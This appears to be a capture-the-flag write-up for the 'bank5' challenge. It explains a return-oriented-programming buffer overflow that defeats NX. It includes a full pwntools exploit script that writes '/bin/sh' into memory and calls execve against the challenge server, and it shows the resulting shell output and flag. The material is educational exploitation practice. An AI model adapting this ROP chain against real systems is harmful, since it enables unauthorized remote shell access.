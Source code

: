 ## bank5 (200 points)

#### Solved by hieplpvip

```
nc 61.28.237.24 30206

author: xikhud
```

Decompiling `bank5` with IDA, we see that `getFlag` no longer exists. NX is also enabled, so we can not inject shellcode. However, as `bank5` is not PIE and uses gets (which accepts null bytes) to read our input, we can easily exploit the buffer overflow using ROP.

![](checksec.png)

Our goal is to call `execve("/bin/sh", NULL, NULL)`. We need to setup the register as follows:

```
EAX = 11 - The execve syscall number
EBX = Address in memory of the string "/bin/sh"
ECX = NULL
EDX = NULL
```

`/bin/sh` doesn't exist in `bank5`, so we also need to put it in memory.

```py
from pwn import *

INT_0x80_ADDR = 0x08049553  # int 0x80
POP_EAX_ADDR = 0x0809d514  # pop eax ; ret
POP_EDX_ADDR = 0x0806dfab  # pop edx ; ret
POP_ECX_EBX_ADDR = 0x0806dfd2  # pop ecx ; pop ebx ; ret
MOV_EDX_INTO_EAX_ADDR = 0x0809cd34  # mov dword ptr [eax], edx ; ret
SAFE_ADDR = 0x080da320  # .bss section
EXEC = "/bin/sh\x00"
EXEC = [EXEC[:4], EXEC[4:]]

def write_mem(value, addr):
  if type(value) == int:
    value = pack(value)
  if type(value) == str:
    value = value.encode('utf-8')
  payload = pack(POP_EDX_ADDR) + value
  payload += pack(POP_EAX_ADDR) + pack(addr)
  payload += pack(MOV_EDX_INTO_EAX_ADDR)
  return payload

# Write EXEC into SAFE_ADDR
payload = b"A" * 80  # padding
payload += write_mem(EXEC[0], SAFE_ADDR)
payload += write_mem(EXEC[1], SAFE_ADDR + 4)

# Populate registers for the syscall
payload += pack(POP_EAX_ADDR) + pack(11)
payload += pack(POP_ECX_EBX_ADDR) + pack(0) + pack(SAFE_ADDR)
payload += pack(POP_EDX_ADDR) + pack(0)

# Syscall
payload += pack(INT_0x80_ADDR)
print(payload.hex())

conn = remote('61.28.237.24', 30206)
conn.sendline(payload)
conn.recv()
conn.interactive()
```

```
$ ls
bank5
bin
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
HCMUS-CTF{rop_and_shellcode}
```

**Flag:** `HCMUS-CTF{rop_and_shellcode}`
